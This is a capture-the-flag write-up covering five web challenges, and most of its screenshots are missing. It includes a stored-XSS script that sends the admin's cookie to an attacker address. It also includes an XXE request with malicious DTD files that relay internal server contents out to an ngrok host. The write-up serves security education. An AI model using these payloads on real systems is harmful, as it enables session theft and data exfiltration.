

# Web Solutions

## Table of Contents


  * [Web 100 - Sweet Tooth](#web-100---sweet-tooth)
  * [Web 200 - Secret Recipe 1](#web-200---secret-recipe-1)
  * [Web 300 - Serial Taco Eater](#web-300---serial-taco-eater)
  * [Web 400 - Taco Chefs Feedback](#web-400---taco-chefs-feedback)
  * [Web 500 - Secret Recipe 2](#web-500---secret-recipe-2)

## Web 100 - Sweet Tooth

The challenge name is a hint to the solution of this challenge - Sweet Tooth -> Cookies

To begin, lets navigate to the web page in a browser:


Now we need to see what cookies are set for this web page. There are a number of ways to do this: browser plugin, browser console, web proxy (like burp suite), etc.

For this, we will use the browser console in chrome. To access this, you can right click on the web page and select `inspect` or you can use the shortcut `Control + Shift + C`. 

Once this is open, click on `Console`. 


This console acts as a javascript console for the web page. We can enter javascript code into this console to learn more about the web page. 

To access the cookies, type `document.cookie` into the console. 


## Web 200 - Secret Recipe 1

This challenge focuses on an interesting form of a SQL attack: **SQL Truncate Attack**. (Really this is a MySQL vulnerability)

To begin, lets look at the index.php source code in the src.zip file that was provided as part of the challenge. 

Looking at line 54, we see that the user who is logged in will display a special message that is unique per user: 


Creating a user and logging in shows us the that this is the case: 


Looking back at the source code, in db.php, it can be determined that the backend database is MySQL:

Line 14:


The way that MySQL compares strings is very relaxed. A [excerpt](https://dev.mysql.com/doc/refman/5.7/en/char.html) from the MySQL Documentation: 

```
All MySQL collations are of type PADSPACE. 
This means that all CHAR, VARCHAR, and TEXT 
values in MySQL are compared without regard 
to any trailing spaces.
```
Knowing this, it can be determined that the authentication for this web page can be bypassed by creating a new admin user with trailing whitespaces:


Login as 'admin' with the new password that was set for the "admin       "(with trailing whitespace) user: 


## Web 300 - Serial Taco Eater

The title of this challenge is a hint at the solution: **PHP Deserialization Attack**

After navigating to the site, answer the question at the bottom of the index page: 


Answering this question leads to the answer.php page. On this page, the source code can be inspected to reveal a hint: `I LOVE TACOS SO MUCH I NAME MY OBJECTS AFTER THEM`


Looking around the web service, it can be seen that the only variable that is presented to the user is the "doyoulovetacos" variable included in the URL. 

Piecing the hints together, it can be assumed that a serialized object called `Taco` should be passed to this variable. 

To create a serialized object, an interactive php shell can be used: 


Taking the serialized Taco object and putting it into the `doyoulovetacos` variable: 


## Web 400 - Taco Chefs Feedback

This challenge focuses on a simple **XXS Attack**. 

The idea of an XXS attack is to inject javascript code on to a website. Then the victim visits the site where the injected javascript is stored and the victim's browser executes the javascript. 

To start, let's look at the feedback page: 


It is obvious that there is some sort of user input field. 

Additionally, when clicking on the `View Comments` button, it takes us to a page that only the admin can see: 


With this information, it can be inferred that the goal is access the `View Comments` page with as the "admin". Additionally, it can be inferred that any comments we submith on the `Give Feedback` page will be displayed to the admin on the `View Comments` page. 

The description for the challenge: 

```
This website seems to be constantly monitored. In fact, the web traffic logs indicate that this website is checked once every minute.

We have reliable intel that the protected portion of this website holds information about the vault. But it seems that only the admin can see the protected part of this page.
```

Tells us that the `View Comment` page is viewed once every minute. So whatever payload is inserted will be executed by the victim within a minute. 

To move forward, let's inject some malicious javascript in to the feedback. This javascript should try to steal the admin user's cookie and send it back to the attacker. 

The way this will work is:


There are many ways to inject javascript into a page, but the most common is to use the `<script>` tag. 

Here is an example of the javascript that could be used to send the admin cookie:

```
<script> var cookie = document.cookie;var xhr = new XMLHttpRequest();xhr.open('GET', 'http://<attacker_ip_address>/test?cookie='+cookie, true);xhr.send();</script>
```

Before we inject this code into the comment section, we need to establish a way to catch the cookie once it is sent to the attacker. There are many ways to do this, but the jist is that the attacker needs a port open to the internet that can listen for incoming requests (like a web server). 

In this example, we will use [ngrok](https://ngrok.com/) to expose a service to the internet and a simple [python web server](https://docs.python.org/3/library/http.server.html) to handle the incoming request.

Command to start ngrok tunnel: `ngrok http 8000`

Command to start python server: `python3 -m http.server`


Add the javascript to the comment page: 


Wait and check the python web server for the cookie: 



Now that we have the cookie, we can take this and add it to our browser. This can be done a number of ways, but for this example we will use a chrome plugin called [Edit this Cookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en)


Then visit the `View Comments` page: 


## Web 500 - Secret Recipe 2

This challenge focuses on exploiting an [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform Server-Side Request Forgery (SSRF). 

To start, lets examine the web page. 

Right away there are two things that should be examined:


1. When logging in with common administrative credentials: `admin` / `admin` a message is displayed to the user:


This message is really important. It tells us that the data that we are looking for is not located on the same machine as the web server. The data lives on a server that is only exposed to the internal network and that server is known as `secret_server` 

So the archtecture looks something like this: 


2. The credentials for the login page seem to be passed using some sort of XML formatting. This can be seen by examining the login javascript function:


With this knowledge, the next step is to fire up Burp Wuite and look at the requests being made. [Here](https://portswigger.net/web-security) are some really good resources to get familiar with Burp Suite. Plus the Port Swigger academy has a lot of good resources for other web pentesting.

After loading up the login requests in Burp Suite, we can see that our previous assessment about sending the data in XML format was correct. This opens up the possibility of code execution on the Web Server via XXE. Some XML parses will allow for a limited form of command execution. Again, read about this in the previously linked Port Swigger website, they do a better job of explaining it than I could hope to. 

To perform an SSRF with XXE, we need two things: A malicious dtd file that we host and a maliciously crafted request to the webserver. 

First lets look at how the request should be crafted. In Burp Suite, find the requst being made to `/check_login.php`. Right click on this and hit send to repeater. This is the request that we are going to need to manipulate. 

Go to the repeater tab and then replace everything after `Connection: close` in the raw request with: 

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://275d42ab779c.ngrok.io/mal.dtd" > %xxe;] >
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
*You will need to replace the ngrok address with whatever address you are assigned in the next step*

Next lets create our malicious dtd file. We will host the malicious dtd file with ngrok and http like we did in Web 400: 

Command to start ngrok tunnel: `ngrok http 8000`

Command to start python server: `python3 -m http.server`


The malicious dtd file should look like this: 

```xml
<!ENTITY % file SYSTEM "http://secret_server/">
<!ENTITY % eval "<!ENTITY exfiltrate SYSTEM 'http://275d42ab779c.ngrok.io/?x=%file;'>">
%eval;
%exfiltrate;
```

*You will need to replace the ngrok address with whatever address you are assigned*

The first line defines the internal server that we want the web server to reach out to. The rest of the file servers as a way to execute that request to the internal server. 

Now it is time to execute the exploit, hit send in Burp Suite in the Repater tab and send the maliciously crafted request to the web server. 

The response given should look like: 


Examining this response we can see that our exploit was successful. The second Warning returned an URI with the contents of `http://secret_server/` in it. However, this does not give us the data we need, as the flag is not in here. It can be seen that there is a `alt="[DIR]"></td><td><a href="data/">` in the URI. This tells us that the internal server had directory listing enabled and that `data` is a directory on the internal server. 

Lets change our dtd to grab the contents of that directory: 

```xml
 <!ENTITY % file SYSTEM "http://secret_server/data">
 <!ENTITY % eval "<!ENTITY exfiltrate SYSTEM 'http://275d42ab779c.ngrok.io/?x=%file;'>">
 %eval;
 %exfiltrate;
 ```
 Now resend the malicious request: 

 

 No flag, but looks like another directory listing. This time, a file called `secret.json` can be seen. 

 Changing the dtd to grab that file: 

 ```xml
  <!ENTITY % file SYSTEM "http://secret_server/data/secret.json">
 <!ENTITY % eval "<!ENTITY exfiltrate SYSTEM 'http://275d42ab779c.ngrok.io/?x=%file;'>">
 %eval;
 %exfiltrate;
 ```

 Examine the response: 

 